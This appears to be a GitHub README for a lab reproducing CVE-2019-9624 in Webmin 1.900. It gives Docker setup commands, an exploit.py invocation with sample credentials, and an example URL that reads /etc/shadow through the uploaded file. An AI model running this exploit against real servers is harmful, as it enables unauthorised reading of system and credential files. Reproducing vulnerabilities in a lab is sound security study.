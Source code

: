 # CVE-2019-9624

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9624>


## Exploit
* <https://pentest.com.tr/exploits/Webmin-1900-Remote-Command-Execution.html>
 

## Environment used

* Ubuntu 18.04.4 LTS
* Webmin 1.900


## Reproduction 

* Server
    - Docker version
        ```shell script
        sudo docker build -t cve-2019-9624 . 
        sudo docker run -p 10000:10000 -it cve-2019-9624
        ```
    - Script version
        ```shell script
        sudo bash installation.sh
        ```    
* Client
```shell script
python3 exploit.py --host SERVER-IP --port 10000 -u test --pass qwerty --file FILE_TO_GET
```      
     
A file will be uploaded allowing to any user to see any system file.      
&emsp;E.g.: Server at <https://SERVER-IP:10000/file/show.cgi/etc/shadow> <br>
